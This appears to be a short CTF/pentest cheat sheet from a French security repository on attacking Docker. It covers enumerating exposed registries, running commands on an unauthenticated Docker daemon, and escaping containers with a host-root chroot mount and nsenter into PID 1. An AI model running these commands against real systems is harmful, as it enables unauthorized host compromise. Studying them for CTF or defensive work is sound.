 # Docker Registries

<br>
<br>

### GET
```
http://IP:PORT/v2/_catalog
```

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/b535b3cb-4bf6-4ba5-9280-c2235db6c4c5)

<br>
<br>

### GET
```
http://IP:PORT/v2/repository/name/tags/list
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/2784b2f8-6216-413f-b1a0-ccfa87710e55)

<br>
<br>

### GET
```
http://IP:PORT/v2/repository/name/manifests/tag-name
```

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/b0f2b6ad-8665-41e7-9078-fd695eb4f32a)

<br>
<br>

# Dive

Installation <a href="https://github.com/wagoodman/dive#installation">ici</a>

```
dive <image_id>
```
<br>
<br>

# RCE

```
docker -H tcp://IP:PORT ps
```
Commands:

```
ps
exec
images
run
network ls
```

<br>
<br>

# Escaping

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
```
We are essentially mounting the hosts "/" directory to the "/mnt" dir
in a new container, chrooting and then connecting via a shell.
```

<br>
<br>

# Shared Namespaces

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/4b284f0e-2353-4815-a4c5-27c2f67d0fa7)

<br>

```
nsenter --target 1 --mount sh
```

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/45e4e663-c561-4608-b5ba-a058094ee8dd)
